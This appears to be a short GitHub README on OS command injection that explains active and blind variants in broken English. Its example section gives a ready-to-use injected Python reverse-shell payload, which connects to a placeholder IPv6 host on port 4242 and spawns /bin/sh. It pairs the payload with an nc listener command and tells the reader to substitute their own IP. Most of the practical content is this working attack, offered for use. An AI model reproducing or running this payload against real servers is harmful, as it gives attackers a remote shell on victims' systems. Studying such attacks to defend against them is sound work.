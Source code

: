  #                                         :muscle:  Web-Vulnerabilites

### 1. OS Command Injection :

### What is OS Command Injection ?

OS Command Injection is server side  web vulnerablities where attacker execute :eyes:" system command"  like id, whoami ,unamem etc os command  .
It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.


### Types Of OS Commnad Injection :

                                  There are two types of OS command injection  such as :
                                                                           
                                                                                        i. Active OS command injection
                                
                                                                                        ii. Blind OS command injection
                                                                                       

### Active OS Command Injection :


Active command injection will return the response to the user.  It can be made visible through several HTML elements. That means when a attacker execute :eyes: "system command "  like ls ,server will return result of ls .(Attacker will se the result of ls ) .It is so easy to execute . 


### Blind OS Command Injection :
      
Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document . That means when a  attacker execute " system command "  like ls ,server will not return result of ls but  server execute ls command . For  , seening the result of :eyes: "system command " you must upload reverse shell on target / victim server . After ,uploaded  reverse shell on victim server , you must be  listen uploades shell on attacker terminal using nc command . 


### Example :
         
        🥇 1. upload reverse shell :
                                  ; python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

        2. listen reverse shell :

                                 nc -lnvp 4242

Note : 
           
       1. Change ip according your local host ip
        
       2. One can easily  upload shell if OS command injection is occured .
              
